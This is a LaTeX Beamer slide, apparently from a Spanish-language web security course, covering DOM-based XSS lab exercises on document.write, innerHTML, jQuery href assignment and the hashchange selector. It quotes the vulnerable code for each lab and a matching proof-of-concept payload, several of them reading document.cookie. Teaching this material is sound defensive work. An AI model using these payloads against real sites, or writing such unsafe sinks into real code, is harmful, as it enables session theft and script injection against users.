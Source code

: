 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS DOM --- document.write, innerHTML, href, jQuery}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Lab 29 --- document.write + location.search
  \item[] \cmdbox{document.write('\textless{}img src=\textquotedbl{}/img/' + decodeURIComponent(search) + '\textquotedbl{}\textgreater{}');}
  \item Payload: ?q=\textquotedbl{}\textgreater{}\textless{}svg onload=alert(1)\textgreater{}
  \item Lab 30 --- innerHTML + location.search
  \item innerHTML NO ejecuta \textless{}script\textgreater{} pero sí event handlers en otras etiquetas
  \item Payload: ?q=\textless{}img src=1 onerror=alert(document.cookie)\textgreater{}
  \item Lab 31 --- href + jQuery + location.search
  \item[] \cmdbox{\$('\#backLink').attr('href', (new URLSearchParams(search)).get('returnUrl'));}
  \item Payload: ?returnUrl=javascript:alert(document.cookie)
  \item Lab 32 --- jQuery + evento hashchange
  \item[] \cmdbox{\$(window).on('hashchange', function() \{\\{}
var post = \$(location.hash); // selector = contenido del hash\\{}
\$('html, body').animate(\{scrollTop: post.offset().top\}, 'fast');\\{}
\});}
  \item Payload desde iframe: src+='\#\textless{}img src=x onerror=alert(1)\textgreater{}'
  \end{itemize}
\end{frame}
\end{document}
